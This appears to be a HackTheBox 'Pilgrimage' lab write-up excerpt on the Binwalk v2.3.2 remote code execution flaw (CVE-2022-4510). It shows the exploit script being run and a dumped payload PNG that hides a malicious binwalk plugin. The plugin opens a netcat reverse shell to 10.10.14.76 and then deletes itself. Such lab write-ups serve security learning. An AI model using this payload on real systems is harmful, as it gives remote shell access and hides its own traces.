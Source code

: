 ```
Binwalk v2.3.2                                                                                                                                                           
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk
```
## Binwalk v2.3.2 - Remote Command Execution (RCE) CVE-2022-4510
Source: https://www.exploit-db.com/exploits/51249

### Generating the payload
```
┌─[✗]─[htb@parrot]─[~/hackthebox/pilgrimage]
└──╼ $ python3 exploit.py ~/Pictures/small.png 10.10.14.76 9005

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
```
### View of payload
```
┌─[htb@parrot]─[~/hackthebox/pilgrimage]
└──╼ $ cat payload.png 
PNG

IHDR

IZpc~8)HK profile(}=H@_S"3P;Yq*BZu0&
-b<8{wר(5hm     ![BA<F˘|=l,s~5o)@@ U
eT`#NN4'|C_$L2r,;X`djSQU)z2bUjJἾtHbK!@F
Z       /)_ͺ|;>Wz_m3.ۚ\'C2%W

)
 }k^o}>*u"eϴrp  pHYs.#.#x?vtIME
                               tEXtCommentCreated with GIMPWIDATc?nĀTi9IENDB`PFS/0.9../../../.config/binwalk/plugins/binwalk.py4.import binwalk.core.plugin
import os
import shutil
class MaliciousExtractor(binwalk.core.plugin.Plugin):
    def init(self):
        if not os.path.exists("/tmp/.binwalk"):
            os.system("nc 10.10.14.76 9005 -e /bin/bash 2>/dev/null &")
            with open("/tmp/.binwalk", "w") as f:
                f.write("1")
        else:
            os.remove("/tmp/.binwalk")
            os.remove(os.path.abspath(__file__))
            shutil.rmtree(os.path.join(os.path.dirname(os.path.abspath(__file__)), "__pycache__"))
```